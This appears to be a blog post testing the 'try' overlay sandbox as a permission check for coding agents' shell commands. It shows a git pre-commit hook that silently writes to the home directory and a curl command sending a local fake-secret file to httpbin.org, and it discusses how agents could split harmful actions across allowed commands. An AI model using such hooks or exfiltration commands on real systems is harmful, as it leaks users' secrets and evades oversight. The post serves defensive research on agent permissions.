





Coding agents like Claude Code and Devin run shell commands constantly, like `git commit`, `npm install`, and `rm -rf build/`. Something has to decide which of those commands are allowed to run. Today, that decision is made in one of three ways:

1. **Allowlist by name.** "`git` is fine, `rm` needs approval."
2. **Ask the human every time.** But people get tired and start approving everything.
3. **Ask an LLM whether the command looks dangerous.** This involves at least some degree of guessing.

All three judge a command by what it says. None of them looks at what it actually does, which files it reads and writes, and whether it touches the network.

I wanted to see how big that gap is in practice, so I ran five ordinary commands through [try](https://github.com/binpash/try) and compared what each one looked like it would do with what it actually did.

## The setup

try, from Konstantinos Kallas and collaborators, runs a command inside a Linux overlay filesystem. The command sees your real files, but every write lands in a scratch layer instead. When the command finishes, try lists exactly what changed and asks whether to keep it.

I was really drawn to the elegant approach of try. try uses Linux user namespaces, so it doesn't need root. The scratch layer only stores differences, so it's cheap. Even deletions are just markers. When a command deletes a file, the overlay leaves a special "whiteout" entry with the same name that hides the real file, and the real file is never touched. You can open the scratch folder and see every change as a plain file. It's super interesting to see every layer and exactly what it does!

For each command, I paid attention to what it looks like it does, what it actually did, and what try missed.

## Finding 1: `git commit` can run code you never ran

I made a repo with a `pre-commit` hook. A hook is a script git runs automatically on certain events. Mine printed "running checks" and quietly wrote a file to my home directory:

```bash
#!/bin/bash
echo "running checks"
echo "uh oh" > ~/bad.txt
```

Then I ran an ordinary commit through try. (The doubled quotes are explained in finding 2.)



The command's name is `git`, but it ran arbitrary code that lived in the repo. An allowlist that says "git is fine" lets it through.

try caught the actual effect, listing `bad.txt`. The only issue, potentially, is that it gets buried in the bookkeeping changes and a human approver misses it.

Many projects install hooks automatically during `npm install`, and git can be configured to load hooks from a normal folder inside the repo. An agent working in a repo it didn't write can trigger code it never read through them.

## Finding 2: the command you type isn't the command that runs

My first attempt at `find . -name "*.log" -delete` through try failed:



But I never typed `b.log`. The second command in the screenshot prints the script try generated, and the quotes around `*.log` are gone.

My shell removed the quotes, as shells do when they pass arguments. try then wrote the command into a script without quoting it again, and a second shell expanded `*.log` into `a.log b.log`. Quoting only protects you against one layer of shell, and here there were two. Adding a second layer of quotes, `"'*.log'"`, fixed it (the last command in the screenshot).

Here, it was an easy fix, but it might be worth being careful when it comes to handling wrappers that re-parse a command.

## Finding 3: the obvious rule blocks a safe command

The natural rule for an agent might look something like **nothing gets written outside the project folder.** So I ran a harmless `npm install ms`, a tiny package with no dependencies:



npm writes a download cache, an update checker and a log to `~/.npm`, outside the project. Even `npm init` wrote there. The rule would block a normal install.

The easy fix is to allow `~/.npm`, but every allowed folder becomes a trusted place to write. The cache itself is fairly safe, because npm names cached files by their sha512 hash and checks it before use. But an allowed folder still lets one command leave something behind for a later command to use, and try judges each command on its own. Writing "allow `~/.npm` only when the command is `npm`" becomes a name-based rule again.

## Finding 4: what try can't see

try records every file a command creates, modifies or deletes. But it cannot record file reads. It also doesn't restrict the network, so a command run through try has the same network access as usual.

Put those together, and exfiltration is possible. I tested it with a fake secret: a file containing the word `fake`, sent to httpbin.org, a public service that echoes back whatever you send it.

```
$ try curl -s --data-binary @/home/victoriayang/fake.txt https://httpbin.org/post
{
  "headers": {
    "Content-Length": "5",
    ...
  },
  "method": "POST",
  "form": {
    "fake\n": ""
  },
  ...
}
$
```

The file's contents reached the server. And that's the whole output, no change list and no prompt. try had nothing to show me, because no file changed. The same thing could happen with a real secret.

Write-based rules can't catch exfiltration. That would take a network namespace or tracing system calls.

## Smaller things

- `rm -rf build/` shows up as one line, `build (deleted)`, no matter how many files were inside. A rule like "never delete `.env` files" has to look in the real folder to see what disappeared.



- A script that appended a line to `~/.bashrc` (so it runs in every new shell) and one that ran `chmod 777` on a file both show up as `(modified)`. A content edit and opening a file to everyone are labeled the same, even though they aren't necessarily the same severity.



## Effect-based rules

What these five commands suggest is writing permission rules about effects, not names. "This command may only write inside this repo, may not read `~/.ssh`, may not touch the network" says what you actually care about, and it doesn't care whether the command is called `git`, `npm` or `im-so-safe.sh`.

try is precise about writes on the real filesystem, during a real run. [Caruca](https://arxiv.org/abs/2510.14279), from the same group, comes at it from the other direction. It learns a command's behavior ahead of time by running it across many flag combinations and filesystem states while tracing system calls. Caruca is general but works from a model, so it can miss behavior that depends on file contents, like a git hook. try is exact but only covers one run. A permission system probably wants both, a spec to check before running, and a sandboxed run to check after.

## Open questions

- **Who writes the policy?** try and Caruca produce facts like "this run deleted `build/`." Neither one decides whether that's allowed. What's the right language for rules like "delete only inside this folder"? How do we make sure everything meant to be allowed is, and everything else isn't?
- **Multi-step attacks.** If each command is judged on its own, an agent can split a bad action across two allowed ones. Can a sandbox track state between commands?
- **Reads and network.** What's the best way to add read and network rules without breaking normal tools like npm?

Next, I want to build a small demo where I run a command through try, read the change list, and block it if it writes outside the project folder.